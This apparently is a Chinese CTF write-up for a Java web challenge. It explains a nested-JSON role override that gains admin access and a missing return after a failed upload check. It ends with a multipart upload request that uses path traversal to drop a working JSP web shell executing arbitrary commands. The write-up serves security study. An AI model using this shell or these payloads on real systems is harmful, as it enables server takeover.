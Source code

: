 根据正则匹配，然后将匹配到的东西替换成`\"role\":\"guest\"`。但是那里用的是for循环，role得到的是最后依次匹配到的，所以可以写2个不一样的role，把最后依次匹配到的替换掉就可以了：

```
data={"username":"1","password":"1","role":"admin","1":{"role":"1"}}
```

这样role就是admin了，可以使用文件上传功能。

文件上传功能那里限制了文件的后缀很内容，但是这里出了问题：

```java
                    if (checkExt(ext) || checkContent(item.getInputStream())) {
                        req.setAttribute("error", "upload failed");
                        req.getRequestDispatcher("../WEB-INF/upload.jsp").forward(req, resp);
                    }

                    String filePath = uploadPath + File.separator + name + ext;
                    File storeFile = new File(filePath);
                    item.write(storeFile);
                    req.setAttribute("error", "upload success!");
```

在if里面，如果后缀或者内容出了问题，进行请求转发后，并没有return：

> 无论是 request.getRequestDispatcher(path).forward(request, response)还是response.sendRedirect,程序都会在执行完该句的情况下继续向下执行,因此在必要的时候应该使用return终止该方法.



这就是非预期产生的原因，可以随便写马上传。写个jsp木马然后上传，但是upload目录不可写，写到static目录就可以了：

```http
------WebKitFormBoundaryLH4SrsDPS4UucSBo
Content-Disposition: form-data; name="file"; filename="../../static/2.jsp"
Content-Type: application/octet-stream

        <%
            java.io.InputStream input = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
            int len = -1;
            byte[] bytes = new byte[1024];
            out.print("<pre>");
            while ((len = input.read(bytes)) != -1) {
                out.println(new String(bytes, "GBK"));
            }
            out.print("</pre>");
    %>
------WebKitFormBoundaryLH4SrsDPS4UucSBo--

```


